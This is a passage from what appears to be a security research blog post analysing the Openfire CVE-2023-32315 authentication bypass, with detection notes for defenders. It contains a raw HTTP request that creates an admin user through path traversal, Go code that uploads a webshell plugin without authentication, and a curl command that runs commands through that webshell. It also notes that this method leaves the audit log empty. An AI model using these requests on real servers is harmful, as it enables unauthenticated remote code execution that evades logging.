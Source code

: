 reason):\\n\\n\`\`\`\\nGET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=5QQN6JwEVq9LIW1&username=hqvvvarefibpfx&password=Qm7y4eZgU9&passwordConfirm=Qm7y4eZgU9&isadmin=on&create=Create%2bUser HTTP/1.1\\nHost: 10.9.49.143:9090\\nUser-Agent: Mozilla/5.0 (iPad; CPU OS 16\_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.5 Mobile/15E148 Safari/604.1\\nCookie: JSESSIONID=node06x26aqm77cqelg1crrhtstts10.node0; csrf=5QQN6JwEVq9LIW1\\nContent-Type: application/x-www-form-urlencoded\\n\`\`\`\\n\\nThese exploits are creating an admin user to gain access to the Openfire Plugins interface. The plugin system allows administrators to add, more or less, arbitrary functionality to Openfire via uploaded Java JARs.\\n\\n!\[Openfire plugins page\](/blog/openfire-cve-2023-32315/openfire-plugins.png){:width="100%"}\\n\\nThis is, very obviously, a place to transition from authentication bypass to remote code execution.\\n\\nThe tangxiaofeng7 exploit repository contains an Openfire plugin with a JSP webshell. Once the attacker has created administrative credentials, they can log in, upload tangxiaofeng7’s plugin, and gain access to a webshell. Similarly, the Metasploit module’s plugin is uploaded but initiates a reverse shell instead of a webshell.\\n\\nReal-world attackers have followed this approach as well. For example, we know the Kinsing botnet likely followed this approach based on \[comments\](https://discourse.igniterealtime.org/t/cve-2023-32315-openfire-administration-console-authentication-bypass/92869/15) from the Ignite Realtime forums.\\n\\nFortunately for defenders, the admin user creation is noisy. Another user on the forum \[posted\](https://discourse.igniterealtime.org/t/cve-2023-32315-openfire-administration-console-authentication-bypass/92869/5) the Openfire security audit log after they’d been exploited (note that the audit log doesn’t disappear just because the system log file has been deleted):\\n\\n!\[Openfire security audit log after exploitation\](/blog/openfire-cve-2023-32315/security-audit-log.png){:width="100%"}\\n\\nUnfortunately for defenders, attackers don’t need to create a user or authenticate to upload a plugin. CVE-2023-32315 gives the attacker access to \`plugin-admin.jsp\`, just as it gives the attacker access to \`user-create.jsp\`. So when we wrote our exploit, we opted for a user-less approach. We extracted a \`JSESSIONID\` and CSRF token from \`/setup/setup-s/%u002e%u002e/%u002e%u002e/plugin-admin.jsp\` and then executed the following logic from our \[go-exploit\](https://github.com/vulncheck-oss/go-exploit)-based exploit:\\n\\n\`\`\`go\\nfunc uploadWebshell(conf \*config.Config, token string, session string) bool {\\n // webshell is uploaded as a multipart upload\\n var multipartFile bytes.Buffer\\n writer := multipart.NewWriter(&multipartFile)\\n header := make(textproto.MIMEHeader)\\n header.Set("Content-Disposition", \`form-data; name="uploadfile"; filename="exampleplugin.jar"\`)\\n header.Set("Content-Type", "application/x-java-archive")\\n\\n // copy the webshell into the writer\\n filedata, \_ := writer.CreatePart(header)\\n \_, \_ = io.Copy(filedata, strings.NewReader(webshell))\\n writer.Close()\\n\\n // upload it\\n headers := map\[string\]string{\\n "Cookie": fmt.Sprintf("JSESSIONID=%s;csrf=%s", session, token),\\n "Content-Type": writer.FormDataContentType(),\\n }\\n\\n // create a normal request. Go does not like the %u in their standard req, so create a\\n // normal request and then insert the malformed URI into the URL struct\\n url := protocol.GenerateURL(conf.Rhost, conf.Rport, conf.SSL, "/")\\n client, req, err := protocol.CreateRequest("POST", url, multipartFile.String(), false)\\n if err {\\n return false\\n }\\n\\n req.URL.Opaque = "/setup/setup-s/%u002e%u002e/%u002e%u002e/plugin-admin.jsp?uploadplugin&csrf=" + token\\n\\n protocol.SetRequestHeaders(req, headers)\\n resp, \_, ok := protocol.DoRequest(client, req)\\n if !ok {\\n return false\\n }\\n if resp.StatusCode != 500 {\\n output.PrintfError("Expected 500 response: %d", resp.StatusCode)\\n\\n return false\\n }\\n\\n return true\\n}\\n\`\`\`\\n\\nAs you can see, we are just uploading the plugin JAR via a POST request (and working around a bit of Go-foolishness associated with the \`%u002e\` in the URI). Without authentication, the plugin is accepted and installed. The webshell can then be accessed, without authentication, using the traversal. For example:\\n\\n\`\`\`sh\\ncurl -v "http://10.9.49.143:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/plugins/exampleplugin/exampleplugin-page.jsp?cmd=whoami"\\n\`\`\`\\n\\nThis approach keeps login attempts out of the security audit log and prevents the “uploaded plugin” notification from being recorded. That’s a pretty big deal because it leaves \*\*no evidence\*\* in the security audit log. For example, this is the security audit log for a system we exploited:\\n\\n!\[Empty Openfire security audit log after exploitation\](/blog/openfire-cve-2023-32315/empty-log.png){:width="100%"}\\n\\nAs you can see, there is absolutely nothing to indicate anything is amiss.\\n\\nThe actual openfire.log file tells a different story (depending on your installation, it may be found at \`/mnt/openfire/logs/openfire.log\`). You can find these important indicators in this log file:\\n\\n> 2023.08.18 17:19:49
